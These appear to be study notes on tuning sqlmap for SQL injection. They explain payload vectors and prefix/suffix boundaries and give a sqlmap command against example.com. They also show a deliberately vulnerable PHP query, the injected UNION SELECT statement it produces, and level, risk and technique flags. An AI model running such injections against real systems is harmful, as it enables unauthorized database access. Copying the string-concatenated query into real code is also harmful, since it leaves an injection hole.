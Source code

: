 Every payload sent to the target consists of:
- vector: central part of payload (UNION ALL SELECT 1,2,VERSION())
- boundaries: prefix and suffix formations, used for proper injection of the vector into the vulnerable SQL statement ('<vector>-- -)

## Prefix/Suffix
**--prefix
**--suffix
```shell-session
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```
- results in %'))<vector>-- -

Example:
If the query is:
```shell-session
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```
The prefix/suffix example above would create a valid SQL statement:
```shell-session
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

## Level/Risk
**--level (1-5, default 1) extends both vectors and boundaries being used. A higher level has a lower expectancy of success
**--risk (1-3, default 1) extends the used vector set based on their risk of causing problems at the target side

-v 3 or higher will display the payload

--level=1 --risk=1 results in 72 payloads
--level=5 --risk=3 results in 7,865 payloads

## Advanced Tuning
**Status Codes
- --code=200

**Titles
- --titles

**Strings (--string=success, --string=dashboard)
- --string

**Text-only (takes away HTML page behavior tags <script>, <style>, <meta>, etc.)
- --text-only

**Techniques
- --technique=BEU (Boolean-based blind, Error-based, UNION-query payloads)

**UNION SQLi Tuning
- --union-cols (if we manually find exact number of columns, specify it with this flag --union-cols=17)
- -NULL
- --union-char='a'
- --union-from=users
